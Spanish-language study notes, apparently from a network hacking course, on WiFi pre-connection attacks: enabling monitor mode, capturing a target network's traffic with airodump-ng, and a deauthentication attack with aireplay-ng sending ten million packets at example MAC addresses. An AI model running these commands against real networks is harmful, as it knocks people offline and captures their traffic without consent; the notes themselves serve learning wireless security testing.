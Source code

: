 # Pre Connection Attacks

## Modo monitor

### Configuración

1. Deshabilitar interfaz

```bash
ifconfig <interfaz de red> down
ifconfig wlan0 down
```

2. Matar procesos que puedan interferir con el modo monitor

`airmon-ng check kill`

3. Habilitar modo monitor

```bash
iwconfig <interfaz de red> mode monitor
iwconfig wlan0 mode monitor
```

4. Habilitar interfaz

```bash
ifconfig <interfaz de red> up
ifconfig wlan0 up
```

5. Comprobar que al ejecutar `iwconfig` el modo aparezca como `Mode:Monitor`

### Explicación

TODO: Lectura 13 de [Learn Network Hacking From Scratch (WIFI & Wired)](https://www.udemy.com/course/wifi-hacking-penetration-testing-from-scratch/learn/lecture/)

## Packet Sniffing

*Verificar que la interfaz se encuentre en modo monitor*

### airodump-ng

```bash
airodump-ng <interfaz en modo monitor>
airodump-ng mon0
```

#### 5GHz

```bash
airodump-ng --band a <interfaz en modo monitor>
airodump-ng --band a mon0
```

```bash
airodump-ng --band abg <interfaz en modo monitor> ## abg indica que se se quiere capturar tanto 2.4 GHz como 5GHz
airodump-ng --band abg mon0
```

*Se requiere una tarjeta de red decente y tener en mente que puede ejecutarse con más lentitud*

#### Ejecutando a objetivo

```bash
airodump-ng --bssid <BSSID> --channel <canal> --write <nombre de archivo> <interfaz en modo monitor>
airodump-ng --bssid F8:23:B2:B9:50:A8 --channel 2 --write file mon0
```

## Deauthentication Attack

### Explicación

TODO: Lectura 17 de [Learn Network Hacking From Scratch (WIFI & Wired)](https://www.udemy.com/course/wifi-hacking-penetration-testing-from-scratch/learn/lecture/)

### Ejecución

```bash
aireplay-ng --deauth <cantidad de paquetes a enviar> -a <MAC Address router> -c <MAC Address cliente> <interfaz en modo monitor>
aireplay-ng --deauth 10000000 -a F8:23:B2:B9:50:A8 -c 80:E6:50:22:A2:E8 mon0
```
